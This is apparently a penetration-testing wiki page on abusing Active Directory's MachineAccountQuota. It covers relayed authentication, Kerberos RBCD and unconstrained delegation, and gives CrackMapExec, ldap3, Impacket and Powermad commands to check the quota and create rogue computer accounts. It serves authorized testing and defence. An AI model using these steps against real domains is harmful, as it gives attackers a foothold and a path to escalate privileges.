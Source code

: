 # MachineAccountQuota

## Theory

> MachineAccountQuota \(MAQ\) is a domain level attribute that by default permits unprivileged users to attach up to 10 computers to an Active Directory \(AD\) domain \([source](https://blog.netspi.com/machineaccountquota-is-useful-sometimes/)\)

## Practice

There are multiple ways attackers can leverage that power.

* [Force client authentications](../coerced-authentications/), [relay those authentications](../abusing-lm-and-ntlm/relay.md) to domain controllers using LDAPS, and take advantage of authenticated sessions to create a domain computer account. This account can then be used as a foothold on the AD domain to operate authenticated recon \(i.e. [with BloodHound](../../recon/bloodhound.md) for example\)
* Create a computer account and use it for [Kerberos RBCD attacks](../abusing-kerberos/delegations.md#resource-based-constrained-delegations-rbcd) when leveraging owned accounts with sufficient permissions \(i.e. ACEs like `GenericAll`, `GenericWrite` or `WriteProperty`\) against a target machine
* Create a computer account and use it for a [Kerberos Unconstrained Delegation](../abusing-kerberos/delegations.md#unconstrained-delegations) attack when leveraging owned accounts with sufficient permissions \(i.e. the `SeEnableDelegationPrivilege` user right\)
* Profit from special rights that members of the Domain Computers group could inherit
* Profit from special rights that could automatically be applied to new domain computers based on their account name

### Check the value

{% tabs %}
{% tab title="UNIX-like" %}
The [MachineAccountQuota](https://github.com/ShutdownRepo/CrackMapExec-MachineAccountQuota) module \(for [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)\) can be used to check the value of the MachineAccountQuota attribute.

```bash
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

Alternatively, it can be done manually with the following Python code.

```bash
import ldap3

target_dn = "DC=domain,DC=local" # change this
domain = "domain" # change this
username = "username" # change this
password = "password" # change this

user = "{}\\{}".format(domain, username)
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn,"(objectClass=*)", attributes=['ms-DS-MachineAccountQuota'])
print(connection.entries[0])
```
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../credentials/impersonation.md) part.

The following command, using the [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Get-ADDomain and Get-ADObject, will help testers make sure the controlled domain user can create computer accounts \(the MachineAccountQuota domain-level attribute needs to be set higher than 0. It is set to 10 by default\).

```bash
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```
{% endtab %}
{% endtabs %}

### Create a computer account

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [addcomputer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) \(Python\) can be used to create a computer account, using the credentials of a domain user the the MachineAccountQuota domain-level attribute is set higher than 0 \(10 by default\).

```bash
addcomputer.py -computer-name 'SHUTDOWN$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\anonymous:anonymous'
```

{% hint style="warning" %}
In some mysterious cases, using [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) to create a computer account resulted in the creation of a **disabled** computer account. Testers can use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) instead with the`--add-computer` option, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96)
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
The [Powermad](https://github.com/Kevin-Robertson/Powermad) module \(PowerShell\) can be used to create a domain computer account.

```bash
$password = ConvertTo-SecureString 'SomePassword' -AsPlainText -Force
New-MachineAccount -MachineAccount 'PENTEST01' -Password $($password) -Verbose
```

While the machine account can only be deleted by doman administrators, it can be deactivated by the creator account with the following command using the Powermad module.

```bash
Disable-MachineAccount -MachineAccount 'PENTEST01' -Verbose
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
Testers need to be aware that the MAQ attribute set to a non-zero value doesn't necessarily mean the users can create machine accounts. The right to add workstations to a domain can in fact be changed in the Group Policies. `Group Policy Management Console (gpmc.msc) > Domain Controllers OU > Domain Controllers Policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > User Rights Assigments > Add workstations to domain`
{% endhint %}

## References

{% embed url="https://blog.netspi.com/machineaccountquota-is-useful-sometimes/" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/5446.active-directory-how-to-prevent-authenticated-users-from-joining-workstations-to-a-domain.aspx" %}

